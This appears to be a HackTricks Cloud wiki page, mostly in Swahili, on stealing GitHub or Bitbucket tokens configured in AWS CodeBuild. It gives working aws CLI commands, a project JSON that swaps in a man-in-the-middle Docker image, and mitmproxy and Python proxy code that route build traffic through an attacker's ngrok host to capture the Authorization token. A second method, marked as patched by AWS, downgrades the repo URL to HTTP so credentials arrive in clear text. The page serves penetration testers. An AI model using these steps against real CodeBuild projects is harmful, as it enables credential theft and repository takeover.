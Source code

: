 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

Kwanza, angalia kama kuna akidi za chanzo zilizowekwa ambazo unaweza kuvuja:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ikiwa unapata kuwa uthibitisho kwa mfano Github umewekwa katika akaunti, unaweza **kuondoa** hiyo **ufikiaji** (**GH token au OAuth token**) kwa kufanya Codebuild **itumie picha maalum ya docker** kuendesha ujenzi wa mradi.

Kwa kusudi hili unaweza **kuunda mradi mpya wa Codebuild** au kubadilisha **mazingira** ya moja iliyopo ili kuweka **picha ya Docker**.

Picha ya Docker unayoweza kutumia ni [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Hii ni picha ya Docker ya msingi sana ambayo itaweka **env variables `https_proxy`**, **`http_proxy`** na **`SSL_CERT_FILE`**. Hii itakuruhusu kukamata sehemu kubwa ya trafiki ya mwenyeji iliyoonyeshwa katika **`https_proxy`** na **`http_proxy`** na kuamini SSL CERT iliyoonyeshwa katika **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Fuata maelekezo ya repo kuweka anwani yako ya IP ya proxy na kuweka cheti chako cha SSL na **ujenge picha ya docker**.
* **USIWEKE `http_proxy`** ili usikamate maombi kwa kiungo cha metadata.
* Unaweza kutumia **`ngrok`** kama `ngrok tcp 4444` kuweka proxy kwa mwenyeji wako.
* Mara tu unapokuwa na picha ya Docker iliyojengwa, **ipakie kwenye repo ya umma** (Dockerhub, ECR...)
2. **Set the environment**
* Unda **mradi mpya wa Codebuild** au **badilisha** mazingira ya moja iliyopo.
* Weka mradi kutumia **picha ya Docker iliyozalishwa awali**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Kama ilivyoonyeshwa katika **Github repo** unaweza kutumia kitu kama:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Toleo la **mitmproxy lililotumika ni 9.0.1**, iliripotiwa kwamba na toleo la 10 hii huenda isifanye kazi.
{% endhint %}

4. **Kimbia ujenzi & kamata akreditivu**

*   Unaweza kuona token katika kichwa cha **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Hii inaweza pia kufanywa kutoka kwa aws cli kwa kitu kama

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Kupitia itifaki ya HTTP~~

{% hint style="success" %}
**Uthibitisho huu ulirekebishwa na AWS wakati fulani katika wiki ya 20 ya Februari ya 2023 (nadhani Ijumaa). Hivyo, mshambuliaji hawezi kuutumia tena :)**
{% endhint %}

Mshambuliaji mwenye **idhini za juu katika CodeBuild anaweza kuvuja token ya Github/Bitbucket** iliyowekwa au ikiwa idhini ilipangwa kupitia OAuth, **token ya muda ya OAuth inayotumika kufikia msimbo**.

* Mshambuliaji anaweza kuongeza mabadiliko ya mazingira **http\_proxy** na **https\_proxy** kwenye mradi wa CodeBuild ukielekeza kwenye mashine yake (kwa mfano `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Kisha, badilisha URL ya repo ya github kutumia HTTP badala ya HTTPS, kwa mfano: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Kisha, endesha mfano wa msingi kutoka [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) kwenye bandari iliyotajwa na mabadiliko ya proxy (http\_proxy na https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Hatimaye, bonyeza **Build the project**, **credentials** zitatumwa kwa **clear text** (base64) kwenye bandari ya mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Sasa mshambuliaji ataweza kutumia token kutoka kwa mashine yake, orodhesha haki zote alizo nazo na (ku)zitumia kwa urahisi zaidi kuliko kutumia huduma ya CodeBuild moja kwa moja.
{% endhint %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) au [**telegram group**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
